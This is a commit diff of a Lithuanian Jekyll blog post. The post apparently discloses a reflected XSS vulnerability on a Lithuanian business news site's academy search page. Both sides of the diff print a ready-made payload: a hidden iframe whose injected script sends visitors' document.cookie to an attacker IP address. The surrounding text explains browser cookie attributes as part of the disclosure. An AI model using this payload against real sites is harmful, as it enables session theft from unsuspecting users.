

Before and after one commit to JarLob/jarlob.github.io, a Jekyll site: the page built from _posts/2022-12-31-mano-vz.md, in a window 1280 px wide and 900 px high, scrolled down 4846 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
vietoj alert

```diff
--- a/_posts/2022-12-31-mano-vz.md
+++ b/_posts/2022-12-31-mano-vz.md
@@ -57,7 +57,7 @@ Antrasis yra "pridengtas" Imperva, tačiau pirmasis veikė iki šiol! WAF naudoj
 
 ### Kas iš to alert?
 
-Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VŽ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikėjo įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko ir slapukas būtų pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VŽ slapukai jų neturi.
+Vietoj `alert` kenkėjiškas kodas galėtų pavogti užklydusio vartotojo slapukus. Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VŽ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikėjo įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko ir slapukas būtų pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VŽ slapukai jų neturi.
 
 Vis dėlto, yra kitas būdas, kuris veikia visur. Šis kodas kenkėjiškame puslapyje arba nulaužtame forume trumpam blykstelėjęs išsiustų [vz.lt](https://vz.lt) slapukus trečioms šalims.
 
```
Also changed, not shown: other parts of _posts/2022-12-31-mano-vz.md (+1 -1 lines).
